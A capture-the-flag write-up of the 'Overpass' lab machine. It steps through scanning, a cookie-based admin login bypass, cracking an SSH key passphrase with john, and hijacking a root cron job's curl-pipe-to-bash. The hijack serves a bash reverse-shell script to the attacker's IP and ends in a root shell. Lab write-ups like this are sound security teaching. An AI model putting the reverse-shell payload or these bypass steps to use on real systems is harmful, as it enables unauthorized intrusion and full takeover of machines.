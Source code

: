 # Overpass

The first thing that I am going to do is a nmap scna:

```bash
nmap 10.10.192.193      

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-01 09:30 EST
Nmap scan report for 10.10.192.193
Host is up (0.059s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 7.19 seconds
```

From there we can see that the host is running ssh and a web page, let’s see what;s in the web page.

![Untitled](Overpass%205b2344c2eb5141888e86ae3e2746ed53/Untitled.png)

Looking at the source code I have found this:

```bash
Overpass allows you to securely store different
                passwords for every service, protected using military grade
                <!--Yeah right, just because the Romans used it doesn't make it military grade, change this?-->
                cryptography to keep you safe.
```

The commented part can be a hint that the password are stored using ROT13.

After that I ran a directory discovery scan:

```bash
ffuf -u http://10.10.192.193/FUZZ -w /usr/share/wordlists/dirb/big.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.192.193/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

aboutus                 [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 58ms]
admin                   [Status: 301, Size: 42, Words: 3, Lines: 3, Duration: 57ms]
css                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 58ms]
downloads               [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 71ms]
img                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 57ms]
:: Progress: [20469/20469] :: Job [1/1] :: 338 req/sec :: Duration: [0:00:36] :: Errors: 0 ::
```

Going into the admin page I got meeted with a login form.

This login form loads a script:

```bash
if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

This script bascially allows you to create a token named SessionToken, and make a value different from “Incorrect credentials” and gives you access in the admin page

![Untitled](Overpass%205b2344c2eb5141888e86ae3e2746ed53/Untitled%201.png)

We found out a ssh key, now I am going to try and access james account with it:

```bash
chmod 400 id_rsa                 
                                                                                                                                                                                                
┌──(kali㉿kali)-[~]
└─$ ssh -i id_rsa james@10.10.192.193
Enter passphrase for key 'id_rsa':
```

Seems like it wants a passphrase.

We can retrieve that with John:

```bash
ssh2john id_rsa > id.txt
                                                                                                                                                                                                
┌──(kali㉿kali)-[~]
└─$ john --wordlist=/usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt id.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<redacted>          (id_rsa)     
1g 0:00:00:00 DONE (2024-01-01 09:58) 100.0g/s 1337Kp/s 1337Kc/s 1337KC/s pimentel..handball
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

And it worked:

```bash
ssh -i id_rsa james@10.10.192.193                                                          

Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jan  1 15:00:25 UTC 2024

  System load:  0.12               Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 13%                IP address for eth0: 10.10.192.193
  Swap usage:   0%

47 packages can be updated.
0 updates are security updates.

Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ whoami
james
```

Once there I found this, in the .overpass file:

```bash
[{"name":"System","pass":"saydrawnlyingpicture"}]
```

Which is James’s password

```bash
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

Looks like there is a crontab running which uses curl totake the buildscript.sh and run that.

From there I just edited the /etc/hosts file and I addes my IP, so now when it will try to retrieve the script, it will retrive it from me.

So I made this script inside a /downloads/src/ folder:

```bash
cat buildscript.sh 
#!/bin/bash

/bin/bash -i >& /dev/tcp/10.18.20.116/5555 0>&1
```

So when I started the server it took my script and I got a reverse shell:

```bash
nc -lvnp 5555

listening on [any] 5555 ...
connect to [10.18.20.116] from (UNKNOWN) [10.10.192.193] 39270
bash: cannot set terminal process group (2104): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# whoami
whoami
root
```